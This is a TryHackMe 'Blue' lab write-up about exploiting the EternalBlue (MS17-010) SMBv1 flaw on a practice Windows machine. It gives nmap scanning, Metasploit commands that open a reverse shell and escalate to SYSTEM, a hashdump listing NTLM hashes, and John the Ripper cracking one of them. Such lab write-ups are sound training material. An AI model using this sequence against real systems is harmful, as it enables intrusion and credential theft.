


# Tryhackme: Blue (lab) writeup
**Date:** March 13,2026 <br>
**Author:** D.Amarnath Patro <br>
**Target ip:** 10.49.!45.**

---
## 1. Introduction
The goal of this lab is to exploit a Windows machine vulnerable to **MS17-010**, commonly known as **EternalBlue**. This vulnerability resides in the SMBv1 protocol.

## 2. Reconnaissance (Information Gathering)
I started with nmap to scan the target machine to identify the vulnerabilities and also the open ports and services.

```bash
nmap -sV -vv --script vuln 10.49.*7*.**
```


*Figure 1 & 2 : Got the vulnerability--> 
 smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).*

## 3. Exploitation (Gaining Access)
```bash
msfconsole 
search ms17
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <Target_IP>
set LHOST <YOUR_IP>
exploit
```
 
 After scanning the target using nmap as i got in figure-2 that it is vulnerable to ms17-010.
 After that i used a exploit module of ms17-010 of eternal blue from metasploit framework.
---
After that, i executed the following code:-

As i checked for options and then i updated the **rhosts and excuted..**

```bash
show options
set rhosts <Target_name>
set payload windows/x64/shell/reverse_tcp
exploit
```
We updated the payload to 'windows/x64/shell/reverse_tcp' to establish a reliable reverse shell, which allows us to receive incoming connections from the target.<br>
And hurray we got our meterpret in the target machine.

## 3. Escalation
we then will background the session and will type the commands below:-
inside the msfconsole:- 
```msfconsole
search shell_to_meterpreter
```


Then, i selected the module
and executed the following commands:-


Then we need to set the required things

```msfconosle
set SESSION 1
run
```
And now we have succesfully escalated the target into 
**NT AUTHORITY\SYSTEM**

Then, we will check for all the processes ongoing in the target machine.
And we will check for the process:- 
*NT AUTHORITY\SYSTEM* and migrate a process, by using the below command:- 
```msf
migrate <Process_ID>
```
----
## Cracking
We will now try to crack the user's password, by using **hashdump**.

```msf
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
And as we can see a non-default user, that is ***Jon***
 
we then save the Jon and its password in a text file and then with the help of **John-The-Ripper** crack the password by using rockforyou.txt(wordlist)

```bash
sudo john --format=NT --wordlist= path_of_the_wordlist
```

and after this, i cracked the password from my kali machine and got the pass as **alqfna22**.
